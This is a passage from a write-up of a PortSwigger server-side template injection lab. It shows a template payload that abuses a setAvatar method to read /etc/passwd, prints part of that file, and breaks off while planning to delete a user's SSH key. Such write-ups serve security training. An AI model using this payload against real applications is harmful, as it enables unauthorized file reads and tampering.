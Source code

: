 **Let's try to upload a valid image file:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Server-Side-Template-Injection/SSTI-7/images/Pasted%20image%2020221224005708.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Server-Side-Template-Injection/SSTI-7/images/Pasted%20image%2020221224005741.png)

**Armed with above information, we can go back to the post comment:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Server-Side-Template-Injection/SSTI-7/images/Pasted%20image%2020221224005819.png)

Notice that our avatar has been changed.

**Now, what if I call method `setAvatar()` in object `user`, and try to read `/etc/passwd`?**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Server-Side-Template-Injection/SSTI-7/images/Pasted%20image%2020221224010023.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Server-Side-Template-Injection/SSTI-7/images/Pasted%20image%2020221224010033.png)

Hmm... Too few arguments error.

The error output when we're uploading a PHP webshell, **it also shows us it needs 2 arguments: `filename` and `MIME type`.**

**Let's supply MIME type argument too:**
```php
user.setAvatar('/etc/passwd','image/png')
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Server-Side-Template-Injection/SSTI-7/images/Pasted%20image%2020221224010329.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Server-Side-Template-Injection/SSTI-7/images/Pasted%20image%2020221224010339.png)

**Although it looks like an error image, we can download it:** 

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Server-Side-Template-Injection/SSTI-7/images/Pasted%20image%2020221224010459.png)

> Note: You can also send a GET request to `/avatar?avatar=wiener` to download it.

```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/Server-Side-Template-Injection]
└─# cat /home/nam/Downloads/avatar 
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
[...]
```

**Boom! We have local file read!**

Hmm... Now we have local file read, but how to delete `carlos`'s private SSH key(`id_rsa`)?
